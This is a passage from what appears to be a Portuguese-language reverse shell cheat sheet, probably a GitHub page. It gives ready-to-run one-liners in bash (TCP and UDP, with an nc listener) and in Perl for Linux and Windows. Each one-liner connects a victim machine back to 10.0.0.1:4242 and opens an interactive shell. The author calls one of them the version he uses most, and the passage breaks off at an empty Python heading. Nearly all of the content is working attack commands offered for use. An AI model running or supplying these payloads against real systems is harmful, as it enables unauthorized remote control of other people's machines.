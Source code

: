 - [Referências](#referências)

# Reverse Shell

Vamos lá então.

## Bash

Esse é um dos mais simples e que geralmente sempre funciona.

### TCP

Esse é o que eu mais uso
```sh
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```sh
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

### UDP

```sh
# Vítima:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1
# Listener:
nc -u -lvp 4242
```

## Perl

### Perl Linux

```sh
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Perl Windows

```sh
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Python

### Python Linux
